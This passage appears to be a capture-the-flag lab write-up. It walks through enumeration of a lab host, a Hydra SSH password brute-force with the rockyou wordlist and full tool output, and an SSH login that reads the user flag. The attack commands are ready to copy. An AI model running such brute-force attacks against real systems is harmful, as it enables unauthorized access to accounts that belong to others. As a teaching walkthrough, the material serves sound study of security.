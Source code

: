 - **Findings:**
  - Open ports: 22 (SSH) and 80 (HTTP).
  - Username hint: "melodias" from a blog post on the web page (accessed via browser), likely a variant of "meliodas".
  - No additional web vulnerabilities noted; focus shifted to SSH based on hints.

---

## 2. Exploitation Process

### Step 1 – Network and Web Enumeration
- As detailed in reconnaissance, Nmap and robots.txt provided service and tool hints. Blog post yielded username "meliodas".

### Step 2 – SSH Brute-Force
- Hydra brute-force:  
  ```
  hydra -l meliodas -P /usr/share/wordlists/rockyou.txt -s 22 10.201.5.107 ssh -t 4
  ```
  **Output Explanation:**  
  ```
  Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

  Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-15 20:09:56
  [DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
  [DATA] attacking ssh://10.201.5.107:22/
  [STATUS] 57.00 tries/min, 57 tries in 00:01h, 14344342 to do in 4194:16h, 4 active
  [STATUS] 61.33 tries/min, 184 tries in 00:03h, 14344215 to do in 3897:54h, 4 active
  [22][ssh] host: 10.201.5.107   login: meliodas   password: [REDACTED]
  1 of 1 target successfully completed, 1 valid password found
  Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-15 20:14:01
  ```
  Hydra is a parallelized brute-forcer. -l specifies login (username), -P the password list (rockyou.txt with ~14 million entries), -s port 22, -t 4 limits to 4 threads to avoid overload. Status updates show progress; it found the match after ~184 tries. This exploits weak passwords from common lists.

- SSH login and user flag capture:  
  ```
  ssh meliodas@10.201.5.107
  ```
  **Output Explanation (Post-Authentication):**  
  ```
  The authenticity of host '10.201.5.107 (10.201.5.107)' can't be established.
  ED25519 key fingerprint is SHA256:Ykgtf0Q1wQcyrBaGkW4BEBf3eK/QPGXnmEMgpaLxmzs.
  This key is not known by any other names.
  Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
  Warning: Permanently added '10.201.5.107' (ED25519) to the list of known hosts.
  meliodas@10.201.5.107's password:
  Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

   * Documentation:  https://help.ubuntu.com
   * Management:     https://landscape.canonical.com
   * Support:    https://ubuntu.com/advantage
  Last login: Sat Aug 24 14:51:01 2019 from 192.168.15.118
  meliodas@ubuntu:~$ ls
  bak.py  user.txt
  meliodas@ubuntu:~$ cat user.txt
  [REDACTED]
  ```
  SSH prompts for password (entered [REDACTED]). Upon login, ls lists files; cat reads the user flag file, proving initial access.